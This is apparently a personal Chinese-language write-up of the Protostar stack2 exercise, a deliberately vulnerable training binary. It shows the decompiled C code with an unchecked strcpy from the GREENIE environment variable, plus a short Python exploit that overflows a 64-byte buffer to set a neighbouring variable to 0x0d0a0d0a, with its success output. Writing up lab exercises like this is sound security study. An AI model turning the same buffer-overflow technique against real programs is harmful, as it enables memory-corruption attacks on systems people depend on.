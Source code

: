 ```yaml
---
title: Protostar_stack2
updated: 2024-02-18 08:48:07Z
created: 2023-11-07 09:23:47Z
---
```


**运行该程序，得到：**

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/0f48e8fdf53739b6f7d2c5331c7b00e0.png" alt="0f48e8fdf53739b6f7d2c5331c7b00e0.png" width="556" height="56" class="jop-noMdConv">

**按照输出设置环境变量后，再次执行：**

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/4c216a967c2ffbe124008e4681f06bf5.png" alt="4c216a967c2ffbe124008e4681f06bf5.png" width="382" height="129" class="jop-noMdConv">

**checksec:**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/6ef7bf5fdcaf53c4bb684cdf2779770a.png" alt="6ef7bf5fdcaf53c4bb684cdf2779770a.png" width="273" height="122" class="jop-noMdConv">**

**查看其反编译代码：**

```
void main(void)
{
    undefined auStack88 [64];
    int32_t iStack24;
    int32_t iStack20;
    
    iStack20 = getenv("GREENIE");
    if (iStack20 == 0) {
        errx(1, "please set the GREENIE environment variable\n");
    }
    iStack24 = 0;
    strcpy(auStack88, iStack20);
    if (iStack24 == 0xd0a0d0a) {
        puts("you have correctly modified the variable");
    } else {
        printf("Try again, you got 0x%08x\n", iStack24);
    }
    return;
}
```

本题中首先获取`GREENIE`环境变量，如果不存在则提示需要设置；

然后判断`iStack24`是否等于`0xd0a0d0a`

exp如下：

```
In [1]: import os

In [2]: env_val = 'a'*64 + '\x0a\x0d\x0a\x0d'

In [3]: os.putenv('GREENIE',env_val)

In [4]: os.system('./stack2')
you have correctly modified the variable
Out[4]: 10496
```